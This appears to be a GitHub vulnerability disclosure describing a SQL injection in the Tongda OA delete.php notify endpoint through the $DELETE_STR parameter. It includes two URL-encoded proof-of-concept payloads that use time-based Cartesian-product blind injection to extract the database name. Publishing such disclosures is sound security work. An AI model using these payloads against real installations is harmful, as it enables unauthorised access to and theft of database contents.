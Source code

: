 SQL injection vulnerability exists in Tongda OA front desk

verison:Versions below v11.10, v2017 version

Route: general/notify/manage/delete.php

There is an injected parameter: $DELETE_STR

![image](https://github.com/willchen0011/cve/assets/13689053/569f0bfa-1d98-4d58-93f8-bd4d894f71fd)

The code here is very concise. When $DELETE_STR is not empty, the parameters are directly spliced ​​into the SQL statement. Since the parentheses are closed here, there is a bypass.

![image](https://github.com/willchen0011/cve/assets/13689053/d31f79b4-e2ae-4287-9c48-89f25e76440b)

We can use Cartesian product blind injection for injection. The following payload can determine that the first character of the database name is t, because it was successfully delayed at 116. The ASCII code 116 also corresponds to the lowercase letter t. By analogy, the database name and any information about the database can be obtained through blind injection.
POC
```
1)%20and%20(substr(DATABASE(),1,1))=char(116)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1
```

And when we change 116 to 115, there will be no delay, indicating the existence of SQL injection.

POC

```
1)%20and%20(substr(DATABASE(),1,1))=char(115)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1
```
![image](https://github.com/willchen0011/cve/assets/13689053/bcd07474-0feb-4648-b44f-9033012b1746)
